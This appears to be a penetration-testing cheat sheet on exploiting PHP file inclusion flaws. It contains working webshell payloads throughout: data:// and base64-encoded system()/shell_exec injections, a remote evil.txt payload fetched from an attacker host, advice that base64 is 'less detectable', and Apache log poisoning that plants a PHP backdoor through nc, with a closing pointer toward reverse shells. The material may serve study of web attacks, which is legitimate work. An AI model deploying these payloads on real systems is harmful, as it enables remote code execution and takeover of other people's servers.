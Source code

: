 ```bash

curl "http://localhost/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

## RFI

* create malicious file evil.txt with payload for php or for any other platform

`<?php echo shell_exec($_GET['cmd']); ?>`

This is how evil.txt can be accessed from the victim host hosted on attacker side

`http://VICTIM.IP/menu.php?file=http://ATTACKER.IP/evil.txt?`

* Include %00 or ? to trick php into terminating the string or considering it as part of URL
* To enhance attacks wrappers can be used. Here are php wrappers

```
#data wrapper
http://10.11.xx.xx/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```
Payload after text/plain can either plain text or base64 encoded.

Here follos example of base64 payload. Base64 is better as it is less detectable and causes less errors.

```
http://192.168.xxx.10/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>

http://192.168.xxx.10/menu.php?file=data:text/plain;base64,PD9waHAgZWNobyBzaGVsbF9leGVjKCJkaXIiKSA/Pg==
```

## Log Poisoning

* submit a request that includes some malicious code

```php

#submit simple php backdoor

nc 10.10.10.xxx 80

<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

```

* trigger malicious log

```bash

http://10.10.10.xxx /menu.php?file=../../../../var/log/apache2/access.log&cmd=whoami

```

* tip: `for reverse shell encode the command as url` in Burp or so
